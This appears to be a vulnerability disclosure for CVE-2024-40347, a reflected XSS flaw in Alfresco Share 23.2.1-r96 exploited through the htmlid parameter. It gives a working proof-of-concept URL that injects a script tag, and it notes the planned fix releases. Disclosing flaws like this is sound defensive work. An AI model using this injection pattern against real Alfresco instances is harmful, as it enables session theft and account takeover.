 CVE-2024-40347


Vulnerability: Reflected XSS

Note: The version and user below are the what was used. Other users and versions may be affected.

Requirements: It is likely the URL will not work unless you replace the GUID following the spacestore with one created in your test environment.

Version: 23.2.1-r96

Authenticated: Yes

User: Admin (possibly others)

Vulnerable Parameter: htmlid


https://192.168.1.102/share/service/components/folder-details/folder-metadata?nodeRef=workspace://SpacesStore/32a28673-6bbf-46b2-b533-e6220a94acf0&htmlid=template_x002e_folder-metadata_x002e_folder-details_x0023_default%22%3e%3cscript%3ealert(1)%3c%2fscript%3e


Fix will be in release of ACS 23.3 scheduled for October 2024
Hotfixes for ACS 23.1, 23.2, 7.2.2.x, 7.3.2.x and 7.4.2.x are aimed at being released by the end of June 2024.


Demo:

![](https://github.com/4rdr/proofs/blob/main/gifs/Alfresco_Reflected_XSS_via_htmlid_parameter.gif?raw=true)
